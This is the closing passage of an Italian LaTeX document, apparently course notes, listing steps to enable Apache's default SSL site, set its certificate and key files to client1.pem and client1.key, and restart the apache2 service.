	\item Abilitare il modulo SSL: \texttt{ln -s ../sites-available/default-ssl.conf}.
	\item Modificare \texttt{default-ssl.conf} per puntare a \texttt{client1.pem} (SSLCertificateFile) e \texttt{client1.key} (SSLCertificateKeyFile).
	\item Riavviare il demone: \texttt{systemctl start apache2}.
\end{enumerate}
	
\end{document}